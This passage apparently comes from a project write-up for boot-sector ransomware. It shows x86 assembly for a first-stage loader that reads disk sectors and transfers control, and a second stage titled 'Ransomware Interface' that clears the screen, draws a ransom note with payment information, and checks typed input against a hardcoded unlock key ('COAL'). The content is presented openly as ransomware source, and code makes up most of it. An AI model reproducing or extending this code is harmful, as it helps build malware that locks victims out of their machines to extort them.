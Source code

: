 ```assembly
    mov ah, 0x02          ; BIOS read sectors
    mov al, 4             ; Sector count
    mov ch, 0             ; Cylinder
    mov cl, 3             ; Start sector (LBA 2)
    mov dh, 0             ; Head
    mov dl, [boot_drive]  ; Drive number
    mov bx, 0x8000        ; Load address
    int 0x13              ; Execute disk read
    
    jmp 0:0x8000          ; Transfer control to Stage2
```

### Stage 2: Ransomware Interface (2048 bytes)

**Advanced Features:**
- **Screen Management** - Clear screen and set video modes
- **UI Rendering** - Draw sophisticated ransom note layout
- **Input Handling** - Process keyboard input with validation
- **Authentication** - Verify against hardcoded key ("COAL")
- **Response Logic** - Handle correct/incorrect key scenarios

```assembly
; Ransomware UI core logic
display_ransom_screen:
    ; Set 80x25 text mode
    mov ax, 0x0003
    int 0x10
    
    ; Clear screen with scroll
    mov ax, 0x0600
    mov bh, 0x07          ; White on black
    xor cx, cx            ; Top-left (0,0)
    mov dx, 0x184F        ; Bottom-right (24,79)
    int 0x10
    
    ; Display ransom messages
    call draw_warning_header
    call display_payment_info
    call show_input_prompt
    
input_loop:
    xor ah, ah
    int 0x16              ; Wait for keystroke
    
    ; Process input and validate against secret key
    call process_keystroke
    cmp byte [input_complete], 1
    jne input_loop
    
    call validate_key
    ; Handle unlock/denial logic
```

---